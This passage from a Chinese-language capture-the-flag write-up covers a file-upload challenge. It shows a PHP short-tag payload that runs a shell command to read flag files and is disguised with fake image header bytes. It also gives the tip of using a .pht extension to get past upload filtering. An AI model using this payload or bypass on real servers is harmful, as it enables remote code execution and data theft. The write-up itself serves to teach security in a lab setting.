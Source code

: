 
5. 显示长度过长，从网上搜索题解知道使用php短标签，短标签不闭合也能执行

```php
BM<?=`tac /f*`;
```

![alt text](images/image-14.png)

- 注意，上传的文件的后缀名要为pht文件，不然无法在目录中显示

6. 我们成功上传以后，从upload开始访问目录最后得到flag
